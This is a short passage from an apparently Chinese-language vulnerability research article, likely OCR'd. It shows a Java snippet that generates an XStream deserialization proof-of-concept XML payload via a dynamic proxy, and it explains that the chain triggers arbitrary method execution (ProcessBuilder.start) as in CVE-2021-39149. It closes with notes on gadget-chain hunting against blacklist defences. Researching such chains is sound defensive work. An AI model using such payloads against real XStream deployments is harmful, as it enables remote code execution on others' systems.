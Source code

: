```jsx
Reflections.setFieldValue(nullprovider,"probes",hashMap);

Object a =  Proxy.newProxyInstance(
        nullprovider.getClass().getClassLoader(),
        new Class<?>[] { Comparable.class },
        (InvocationHandler) nullprovider);

XStream xstream = new XStream();
String poc = xstream.toXML(a);
System.out.println("<linked-hash-set>\n" +poc + "\n</linked-hash-set>");
```

对于生成出来的动态代理对象XML，只需要在最外层套用一层linkedhashset，即可在其实现中调用对象的hashCode方法，从而进入动态代理的invoke函数，最终触发任意方法执行。在本例中选择的是processBuilder.start，同样的也可以使用TemplatesImpl.getOutputProperties进行代码代码执行。事实上这就是XStream CVE-2021-39149的挖掘过程。

### 0x05 总结

就动态代理的利用来说，jdk已被挖掘的七七八八，XStream其他的公开利用链，基本上都基于CompareTo、toString、hashCode等方法进行展开，找到一些潜在的特定格式的特定参数可控的方法执行后，再进一步填入不同的类，进行漏洞的完整利用。这种寻找Gadget的方法在Weblogic、Websphere、Dubbo hessian等固定存在序列化入口，通过黑名单进行防御的漏洞挖掘种常常被用到，不同的只是对类的限制、要求不同，在看清真实的需求的情况下，利用自动化工具一步步寻找，就可以有效地进行Gadget挖掘。